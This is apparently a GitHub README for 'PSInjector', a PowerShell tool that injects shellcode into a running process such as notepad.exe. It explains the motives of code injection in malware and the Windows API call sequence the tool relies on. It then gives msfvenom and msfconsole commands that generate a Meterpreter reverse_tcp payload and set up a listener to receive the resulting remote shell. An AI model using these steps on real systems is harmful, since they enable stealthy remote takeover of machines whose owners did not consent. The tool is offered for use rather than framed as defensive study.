 # PSInjector
Code injection is a technique where a process can insert a part of or all of its code from its own running process into another target process and get the target process to execute the injected code.


![image](https://user-images.githubusercontent.com/68971838/210256124-30b065df-ff35-4a5a-af9e-6d956c6be52a.png)

Code Injection Motives

Code injection is performed in both user mode and kernel mode. Malware mainly uses code injection for the following reasons.

• Hiding their presence, also known as stealth 

• Process piggybacking 

• Altering functionality of another process or entire OS

Code Injection Target

Before injecting code, malware must figure out who and where it wants to inject its code. Malware can inject its code into existing processes running on the system, as well as into the kernel. Alternatively, it can create/spawn a new process off itself in a suspended state and inject code into it. For user space, we already know that each process has its own private virtual memory space split into user mode and kernel mode address space. The user-mode space of the virtual memory is tampered by another process, even though it is private to the process. If malware injects code into the user-mode part of any other process, only that process is affected by the malware. Modifying the kernel impacts all processes on the system. But again, injecting into the kernel by adding a kernel module or altering an existing kernel module is not a child’s play. A programmer needs to be extremely careful while playing around with any kernel code, as a small mistake can dramatically impact the system and may lead to a system crash. On the other hand, the kernel is highly protected and not that easy to modify, making it not the most sought-after destination for malware.


Steps for Code Injection
Code injection is largely handled in the following steps.

1. Locate the target for code injection. 

2. Inject the code. 
  
  a. Allocate/create memory/space in the target process of virtual memory. 
  
  b. Write/inject code into the allocated memory/space in the target 

3. Execute the injected code in the target.


This is a script written in PowerShell that injects a payload into another process. The payload is in the form of an array of bytes and is injected into the process with the ID specified by the $procId variable. in our case is notepad.exe

The LookupFunc function is used to get the address of a function in a dynamic-link library (DLL). It takes a DLL name and the name of a function as input and returns the address of the function. The getDelegateType function is used to create a delegate type for a function. A delegate is a type that represents a reference to a method.

The OpenProcess function is used to get a handle to the process with the specified ID. The VirtualAllocEx function is used to allocate memory within the virtual address space of the process. The WriteProcessMemory function is used to write the payload to the memory that was allocated. Finally, the CreateRemoteThread function is used to create a thread that runs in the context of the process and begins execution at the specified memory address.


First we need the shellcode, to create shellcode we will use msfvenom:
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -f ps1

Now set up a listener in the Metasploit Framework (MSF), you first need to start the MSF console:

msfconsole
use multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp 
set LHOST IP
set LPORT PORT


